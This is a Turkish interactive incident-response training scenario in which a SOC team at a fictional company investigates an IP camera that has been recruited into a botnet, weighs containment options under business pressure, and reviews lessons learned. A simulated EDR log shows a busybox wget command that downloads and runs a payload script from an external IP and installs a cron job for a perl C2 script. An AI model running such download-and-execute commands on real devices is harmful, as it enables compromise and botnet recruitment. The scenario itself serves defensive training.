

CyberScenario: IoT Krizi
ÇOLHAK Corporation – Gelişmiş IoT Kriz Simülasyonu
Senaryoya Hoş Geldiniz
Bu interaktif senaryoda, ÇOLHAK Corporation'ın siber güvenlik ekibinin bir üyesisiniz. Göreviniz, gelişen bir güvenlik tehdidini analiz etmek, kritik kararlar almak ve şirketi potansiyel bir felaketten korumaktır. Her adımda sunulan bilgileri dikkatle değerlendirin. Hazır mısınız?

Simülasyon Rolleri
- Sizin Rolünüz: Siber Güvenlik Ekibi Üyesi - ÇOLHAK Corporation'ın siber güvenlik ekibinin bir parçasısınız. Olay müdahalesinde aktif rol alacak, analizler yapacak ve kritik kararlar vereceksiniz.
- Ezgi (Tier-1 SOC Analisti) - İlk uyarıları ve şüpheli aktiviteleri tespit eden ekibinizin gözü kulağı.
- Alper (Tier-2 Analisti) - Ezgi'den gelen olayları daha derinlemesine analiz eden, teknik araştırmalar yürüten uzmanınız.
- Ceyda (Siber Güvenlik Yöneticisi) - Siber güvenlik ekibinizin lideri ve kriz anında nihai kararları veren kişi. Stratejik rehberlik sağlar.
- Satış Direktörü - Şirketin ticari operasyonlarından sorumlu, özellikle canlı demo gibi kritik iş süreçlerinin aksamasını istemeyen bir paydaş.
- Finans Direktörü (CFO) - Şirketin finansal sağlığından sorumlu üst düzey yönetici.
🕒 07:15 – İlk Sinyal: Zenginleştirilmiş SIEM Uyarısı
Günün başlangıcında, Tier-1 SOC Analisti Ezgi, SIEM (Güvenlik Bilgi ve Olay Yönetimi) panelinde kritik bir uyarı fark eder. Bir korelasyon kuralı tetiklenmiştir: "Kritik Varlık Ağından Bilinmeyen C2 Sunucusuna Periyodik Veri Sızıntısı".
ALERT ID: 8451
TRIGGER: Correlation Rule - "Suspicious C2 Beaconing"
SOURCE IP: 10.10.30.15 (VLAN: IoT Cihazları)
HOSTNAME: KAMERA-3KAT-OKYANUS
SOURCE MAC: 00:1A:2B:3C:4D:5E
DESTINATION IP: 88.54.12.219 (Reputation: Düşük, Kategori: Bilinmiyor)
PROTOCOL: UDP/443
OBSERVATION: Son 3 saattir her 5 dakikada bir 128KB'lık bir veri paketi gönderiliyor.
PCAP SUMMARY: 'update.serve-config.net' için yapılan DNS sorgusu 88.54.12.219'a çözümlendi. UDP payload'u gizlenmiş Base64 dizeleri içeriyor.
MITRE ATT&CK MAPPING: T1041 (Exfiltration Over C2), T1571 (Non-Standard Port)Ezgi: "Bu normal bir trafik değil. Kaynak IP, IoT VLAN'ında görünüyor ve hedef daha önce görmediğimiz şüpheli bir adres. MITRE eşleşmeleri de endişe verici. Durumu hemen Tier-2'ye (Alper) iletiyorum."
🕒 07:30 – Eş Zamanlı Gelişmeler ve İlk Karar Anı
Ezgi'nin analiziyle hemen hemen aynı anda, sisteme iki farklı olay kaydı düşer. Ekip olarak hangi olaya öncelik vereceğinize karar vermelisiniz.
Olay 1: Yardım Masası Talebi #7254
Kullanıcı: Ayşe Yılmaz
Konu: 3. Kat Okyanus Toplantı Odası'ndaki kamera sürekli donuyor ve web arayüzü çok yavaş. Dün sabah böyle bir sorun yoktu.
Olay 2: Kritik Sistem Uyarısı #9112 (Kırmızı Balık)
Sistem: Active Directory
Konu: Finans Direktörü (CFO) hesabında son 15 dakika içinde 50'den fazla başarısız oturum açma denemesi tespit edildi.
Ekip Lideri: "İki tane potansiyel olarak ciddi olayımız var. Biri potansiyel veri sızıntısı, diğeri üst düzey bir yöneticinin hesabına yönelik bir saldırı olabilir. Kaynaklarımız sınırlı, hangisine odaklanıyoruz?"
🕒 07:50 – Yanlış Önceliklendirme
Ekip, Finans Direktörünün hesabına odaklanmaya karar verir. Yapılan hızlı araştırma sonucunda, Finans Direktörünün yurt dışında tatilde olduğu ve yeni şifresini unuttuğu için mobil cihazından defalarca yanlış giriş yapmaya çalıştığı anlaşılır. Hesap geçici olarak kilitlenir ve durum kontrol altına alınır.
Alper: "Bu bir 'false positive' (yanlış alarm) idi. Ancak bu araştırmayı yaparken yaklaşık 20 dakika kaybettik. Şimdi acilen diğer olaya dönmemiz gerekiyor. Umarım geç kalmamışızdır."
🧑💻 08:00 – Alper’in Derinlemesine Analizi
Tier-2 Analisti Alper, SIEM uyarısı ile yardım masası talebini birleştirir. Şüpheli `10.10.30.15` IP adresini şirketin Varlık Yönetim Sistemi'nde sorgular. Sonuç nettir: IP adresi, 3. Kat Okyanus Toplantı Odası'ndaki bir "SmartEye 3000" model IP kamerasına aittir.
Alper, analizini bir adım ileri taşıyarak EDR (Uç Nokta Tespiti ve Müdahale) konsolunu kontrol eder ve kritik bir bulguya rastlar:
EDR LOG - Cihaz: KAMERA-3KAT-OKYANUS (10.10.30.15)
PROCESS: /bin/busybox
COMMAND: busybox wget http://88.54.12.219/payload.sh -O /tmp/p.sh
ACTION: 'p.sh' dosyası çalıştırıldı. 'perl /tmp/c2.pl' komutu içeren bir crontab görevi oluşturuldu.Hızlı bir internet araştırması, bu modelin firmware'inde yakın zamanda açıklanmış kritik bir güvenlik açığını (CVE-2025-1337) ortaya çıkarır. Bu zafiyet, yetkisiz Uzaktan Kod Çalıştırmaya (RCE) olanak tanımaktadır.
Alper: "Tamam, şimdi her şey oturdu. Kameradaki yavaşlama bir arıza değil, bir semptom. Cihaz, bilinen bir zafiyet üzerinden ele geçirilmiş, bir payload indirmiş ve bir botnet parçası olarak C2 sunucusuna veri gönderiyor. Acilen yöneticimiz Ceyda'ya raporlamalıyız."
🕒 08:30 – Ani Komplikasyon: Yönetim Baskısı
Tam Alper bulgularını Ceyda'ya sunmaya hazırlanırken, telefonu çalar. Arayan, Satış Direktörüdür ve sesi oldukça gergindir.

Satış Direktörü: "Ekibiniz Okyanus Odası'ndaki kamerayla mı uğraşıyor? O kameranın 1 saat içinde çalışır durumda olması lazım, çok önemli bir yabancı müşteriye canlı demo sunumu yapacağız! Odayı kapatamazsınız, hemen bir çözüm bulun!"
Bu yeni bilgi, verilecek kararın sadece teknik değil, aynı zamanda operasyonel bir boyutu olduğunu da ortaya koyuyor. Ekip üzerindeki baskı artmıştır.
🏢 08:45 – Kriz Toplantısı ve Karar Anı
Alper, durumu Siber Güvenlik Yöneticisi Ceyda'ya özetler: "CVE-2025-1337 zafiyeti kullanılarak ele geçirilmiş bir IP kameramız var. Şimdilik sadece 'beaconing' aktivitesi gibi görünen küçük veri paketleriyle dışarıyla haberleşiyor. Ağ içinde yanal bir hareket tespit etmedik. Ancak Satış Departmanı'nın 1 saatten az bir süre içinde o kameraya ihtiyacı var."
Ceyda: "Anlaşıldı. Zamanımız kısıtlı ve baskı altındayız. Elimizde üç seçenek var gibi görünüyor. Karar sizin. Ne yapıyoruz?"
Ekip olarak kararınızı verin:
Seçenek A: İzole Et ve Yamala (Güvenli Yol)
Kamerayı derhal ağdan ayır. Cihazı laboratuvar ortamına al, imajını yakala ve en son firmware ile güncelle. Tehdit anında durdurulur.
Risk: Saldırganın kim olduğu veya nihai hedefinin ne olduğu hakkında daha fazla bilgi edinemeyiz. Satış sunumu iptal olur.
Seçenek B: Honeypot'a Yönlendir (Riskli Gözlem)
Kameranın trafiğini, ana ağdan tamamen izole bir "Honeypot" (Bal Küpü) ortamına yönlendir. Saldırganın davranışlarını (TTP'ler) gizlice izleyerek değerli istihbarat topla.
Risk: Saldırgan Honeypot'u fark edebilir veya gözlem sırasında daha agresif bir saldırı (örn: fidye yazılımı) başlatabilir.
Seçenek C: Karantinaya Al ve Gözlemle (Hesaplı Orta Yol)
Kamerayı internet erişimi olmayan, izole bir VLAN'a taşı. Cihazın internete çıkışını engelle ama yerel ağdaki 'yem' varlıklara ne yapmaya çalıştığını gözlemle. Bu, yanal hareket denemelerini açığa çıkarabilir.
Risk: Yapılandırma hatası saldırganın karantinadan kaçmasına neden olabilir. Satış sunumu yine de gecikebilir.
📊 Nihai Rapor: Tehdit Kontrol Altına Alındı
Ekip, A Seçeneğini uygulamaya karar verdi. Kameranın portu derhal kapatıldı ve cihaz laboratuvara taşındı. Satış sunumu iptal edildi.
Kararınızın Sonuçları:
Etkilenen Sistemler
1
Finansal Zarar
₺50.000
Veri Kaybı
0%
İtibar Puanı
95/100
- Eylem: Cihaz ağdan izole edildi, imajı adli analiz için alındı.
- Bulgu: Analizde, cihazı bir DDoS botnet'ine dahil etmek için kullanılan basit bir Perl betiği bulundu.
- Çözüm: Cihazın firmware'i güncellenerek zafiyet kapatıldı. Ağ taraması, yamalanması gereken aynı modeldeki 3 kamerayı daha ortaya çıkardı ve onlar da güncellendi.
- Sonuç: Veri sızıntısı yaşanmadı. Operasyonel aksama (iptal edilen sunum) nedeniyle küçük bir maliyet oluştu, ancak kriz büyümeden önlendi.
🚨 Nihai Rapor: Kriz Büyüdü!
Ekip, B Seçeneğini uygulamaya karar verdi. Ancak tecrübeli saldırgan, Honeypot'u fark ederek agresif bir saldırı başlattı.
Kararınızın Sonuçları:
Etkilenen Sistemler
4+
Finansal Zarar
₺15.000.000+
Veri Kaybı
40%
İtibar Puanı
20/100
- Eylem: İzlenildiğini anlayan saldırgan, planını değiştirerek elindeki erişimden sonuna kadar faydalanmaya karar verdi.
- Bulgu: Kameradan ağdaki diğer zafiyetli sistemleri taramaya başladı. Zayıf bir servis hesabı şifresini kırarak bir dosya sunucusuna yanal hareket gerçekleştirdi.
- Sonuç: Saldırgan, Finans ve İK departmanlarının kritik verilerini barındıran sunuculara fidye yazılımı (ransomware) bulaştırdı. Şirket operasyonları durma noktasına geldi.
- Kriz Yönetimi: Olay, bir veri ihlaline ve büyük bir operasyonel krize dönüştü. Kurtarma çalışmaları, danışmanlık ücretleri ve iş kaybı maliyeti devasa boyutlara ulaştı.
📊 Nihai Rapor: İstihbarat Toplandı, Tehdit Etkisiz Hale Getirildi
Ekip, C Seçeneğini uygulamaya karar verdi. Kamera, internet erişimi olmayan özel bir VLAN'a taşındı ve tüm aktiviteleri izlendi.
Kararınızın Sonuçları:
Etkilenen Sistemler
1
Finansal Zarar
₺5.000
Veri Kaybı
0%
İtibar Puanı
100/100
- Eylem: Kamera izole VLAN'da çalışır durumda bırakıldı ve tüm aktiviteleri NDR (Ağ Tespiti ve Müdahale) aracıyla izlendi.
- Bulgu: Saldırganın, kameradan yerel ağa doğru `nmap` ile port taraması yapmaya çalıştığı tespit edildi. Bu davranış, saldırganın TTP'leri (Taktik, Teknik, Prosedürler) hakkında değerli istihbarat sağladı.
- Çözüm: Elde edilen istihbaratla, diğer kameraları yamalamadan önce bu tür yanal hareketleri engelleyecek özel güvenlik duvarı kuralları yazıldı. Ardından tüm savunmasız kameralar güvenli bir şekilde güncellendi.
- Sonuç: Hem tehdit durduruldu hem de gelecekteki benzer saldırıları proaktif olarak engellemek için değerli bilgiler toplandı. Satış sunumunda yaşanan küçük gecikme dışında kayda değer bir kayıp yaşanmadı.
📌 Kapanış: Vaka Analizi ve Alınan Dersler
Teknik Dersler
- Varlık Yönetimi: Ağdaki tüm cihazların (özellikle IoT) güncel bir envanterini tutmak, olay anında hızlı teşhis için kritiktir.
- Ağ Segmentasyonu: IoT cihazları, kritik sunuculardan ve kullanıcı ağlarından izole, ayrı VLAN'larda tutulmalıdır. Bu, yanal hareketi zorlaştırır.
- Zafiyet Yönetimi: Cihaz firmware ve yazılımları için düzenli zafiyet taramaları yapılmalı, yamalar hızla uygulanmalıdır.
- Aldatma Teknolojileri (Deception): Honeypot ve izole gözlem ortamları, doğru kullanıldığında, saldırganların taktiklerini anlamak için güçlü araçlardır.
Prosedürel Dersler
- Olay Önceliklendirme: Birden fazla uyarı olduğunda, potansiyel etkiye göre doğru önceliklendirme yapmak, kaynakların verimli kullanılmasını sağlar.
- SIEM Kurallarının İyileştirilmesi: Anormal veri sızıntısı ve beaconing gibi aktiviteleri tespit eden korelasyon kurallarının hassasiyeti sürekli geliştirilmelidir.
- Departmanlar Arası İletişim: Yardım Masası'ndan gelen kullanıcı şikayetlerini SOC uyarılarıyla ilişkilendirmek, olayların erken tespiti için hayati önem taşır.
Stratejik Dersler
- Risk İştahı: "İstihbarat toplama" ile "riski hemen ortadan kaldırma" arasındaki denge, her olayda yönetimle birlikte dikkatle değerlendirilmelidir.
- Baskı Yönetimi: Olay müdahalesi sırasında iş birimlerinden gelebilecek operasyonel baskıları yönetmek, siber güvenlik karar süreçlerinin ayrılmaz bir parçasıdır.
- Erken Müdahalenin Değeri: Şüpheli bir aktivite tespit edildiğinde hızlı ve kararlı hareket etmek, potansiyel bir krizi önlemenin en etkili yoludur.
ShadowCircuit v6 – © 2025 ÇOLHAK